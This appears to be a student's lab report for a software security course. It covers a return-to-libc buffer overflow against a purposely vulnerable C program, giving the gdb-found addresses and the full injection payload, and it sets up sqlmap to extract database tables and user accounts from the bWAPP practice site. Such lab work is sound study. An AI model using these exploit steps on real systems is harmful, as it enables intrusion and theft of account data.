 # LAB #1,22110041,Bui Nguyen An Khang,INSE330380E_03FIE
## Task 1
Create a vulnerbility code
![alt text](image5.png)
![alt text](image-4.png)
Create a shell code c
![alt text](image-3.png)
![alt text](image-2.png)
Must conform to below structure:

Description text (optional)

- Compile both C programs and shellcode to executable code. 

- We need to change `void main` to `int main` in `shellcode.c`.

![image](./img0.png)

- Use an older shell and turn off randomly given stack value. 

![img](./img1.png)

- Create environmet variable `preload` with `export`.

![](./img2.png)

- Stack frame of `vuln.c`.

![](./stackframe.png)

- Use `gdb` to find the address of `system`, `exit` and `preload` variable.
  - Address of `system`: 0xf7e50db0
  - Address of `exet`: 0xf7e449e0
  - Adderss of `preload`: 0xffffde2c

![](./img3.png)

- Run `vuln.out` with command:

``` 
  r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x2d\xde\xff\xff')")
```

output screenshot (optional)

**Conclusion**: The final results indicate that the combination of techniques environment variable and manipulation of memory space can lead to the execution of unauthorized actions within the system. This lab not only reinforces knowledge about security and software vulnerabilities but also emphasizes the importance of writing secure code to prevent similar attacks in real-world scenarios.

## Task 2
## Install bWapp
Install and run the website
![alt text](image-5.png)
![alt text](image-6.png)
Use http://localhost:8025/install.php?install=yes to open website
![alt text](image-7.png)
### Install SQL map

Use git clone https://github.com/sqlmapproject/sqlmap.git to clone sqlmap to your computer

![alt text](image-8.png)
![alt text](image-9.png)
### Question 1:
We must need a place where we can get the database by inject our code and login seems like a great choice
![alt text](image-10.png)
Now use F12 to inspect and get cookies
![alt text](image-12.png)
Use this comment to get database
![alt text](image.png)
We will get the results
![alt text](image-1.png)
### Question 2
To get tables we use 
![alt text](image-11.png)
![alt text](image-13.png)
![alt text](image-14.png)
![alt text](image-15.png)
And now to get user's accounts we use
![alt text](image-16.png)
We will get these results
![alt text](image-17.png)